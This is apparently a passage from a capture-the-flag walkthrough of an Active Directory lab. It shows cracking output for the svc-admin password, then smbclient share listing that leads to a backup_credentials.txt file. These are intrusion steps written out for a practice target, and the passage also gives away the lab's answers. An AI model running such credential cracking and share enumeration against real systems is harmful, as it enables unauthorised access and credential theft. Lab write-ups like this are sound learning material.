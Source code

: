 ```
Progress.........: 8192/70188 (11.67%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 0/70188 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: m123456 -> whitey

Started: Sun Aug 23 01:25:19 2020
Stopped: Sun Aug 23 01:25:41 2020

```

password is
```
management2005
```

[Task 6] Enumerate the DC Pt 3 

#1 Using utility can we map remote SMB shares?

```
smbclient
```

#2 Which option will list shares?

```
kali@kali:~/Downloads$ smbclient -L 10.10.4.164 --user svc-admin
Enter WORKGROUP\svc-admin's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available

```

#3 How many remote shares is the server listing?

```
6
```

#4 There is one particular share that we have access to that contains a text file. Which share is it?

```
kali@kali:~/Downloads$ smbclient //10.10.4.164/backup --user svc-admin
Enter WORKGROUP\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 15:08:39 2020
  ..                                  D        0  Sat Apr  4 15:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

                8247551 blocks of size 4096. 5266909 blocks available
smb: \> 

```
